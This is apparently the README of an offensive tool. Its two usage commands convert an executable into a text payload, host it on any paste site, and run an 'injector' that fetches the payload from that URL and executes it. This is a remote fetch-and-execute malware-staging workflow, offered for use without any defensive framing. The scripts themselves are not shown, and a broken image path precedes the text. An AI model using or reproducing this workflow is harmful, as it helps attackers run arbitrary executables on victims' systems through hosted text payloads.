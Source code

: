 ![logo](logo.png)

Create a payload:
```
python3 payload.py <input.exe> <output.txt>
```
Upload the payload anywhere you can host a text file. 

Inject and execute the payload:
```
python3 injector.py <https://paste-site.wherever>
```
